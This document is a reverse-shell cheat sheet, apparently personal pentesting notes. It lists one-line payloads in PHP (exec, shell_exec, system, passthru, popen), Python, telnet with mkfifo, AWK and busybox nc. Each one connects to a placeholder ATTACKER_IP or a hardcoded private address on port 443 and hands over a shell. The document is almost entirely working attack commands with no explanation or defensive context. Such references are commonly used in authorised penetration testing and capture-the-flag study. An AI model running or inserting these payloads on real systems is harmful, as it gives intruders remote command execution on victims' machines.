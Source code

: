 PHP rev shell exec function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```
PHP Reverse Shell Using the shell_exec Function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```
PHP Reverse Shell Using the system Function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
```
PHP Reverse Shell Using the passthru Function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```
PHP Reverse Shell Using the popen Function
```
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
```

### Python

#python 

Python Reverse Shell by Exporting Environment Variables
```
export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
Python Reverse Shell Using the subprocess Module
- `-c` execute the command as code
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
Short Python Reverse Shell
```
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

Telnet
```
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

AWK
```
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

busybox
```
busybox nc ATTACKER_IP 443 -e sh
```
